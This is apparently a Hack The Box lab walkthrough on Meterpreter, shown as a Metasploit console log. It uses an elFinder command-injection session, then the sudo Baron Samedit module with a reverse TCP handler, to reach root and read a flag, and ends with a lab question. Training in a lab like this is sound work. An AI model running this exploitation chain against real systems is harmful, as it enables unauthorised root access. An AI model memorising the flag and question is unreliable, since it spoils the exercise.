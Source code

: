 ```zsh
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                Connection
  --  ----  ----                   -----------                ----------
  1         meterpreter x86/linux  www-data @ 10.129.194.204  10.10.14.174:4444 -> 10.129.194.204:38568 (10.129.194.204)

msf6 exploit(linux/http/elfinder_archive_cmd_injection) > use exploit/linux/local/sudo_baron_samedit
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/sudo_baron_samedit) > set session 1
session => 1
msf6 exploit(linux/local/sudo_baron_samedit) > set lhost tun0
lhost => tun0
msf6 exploit(linux/local/sudo_baron_samedit) > run
[*] Started reverse TCP handler on 10.10.14.174:4444 
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: x86
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. sudo 1.8.31 may be a vulnerable build.
[*] Using automatically selected target: Ubuntu 20.04 x64 (sudo v1.8.31, libc v2.31)
[*] Writing '/tmp/waV4zc.py' (763 bytes) ...
[*] Writing '/tmp/libnss_P/3lVPE .so.2' (540 bytes) ...
[*] Sending stage (3045380 bytes) to 10.129.194.204
[+] Deleted /tmp/waV4zc.py
[+] Deleted /tmp/libnss_P/3lVPE .so.2
[+] Deleted /tmp/libnss_P
[*] Meterpreter session 2 opened (10.10.14.174:4444 -> 10.129.194.204:38790) at 2025-04-22 05:18:53 -0400

meterpreter > getuid
Server username: root
meterpreter > cat /root/flag.txt
HTB{5e55ion5_4r3_sw33t}
meterpreter > 

```

# Meterpreter

+ 1  Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?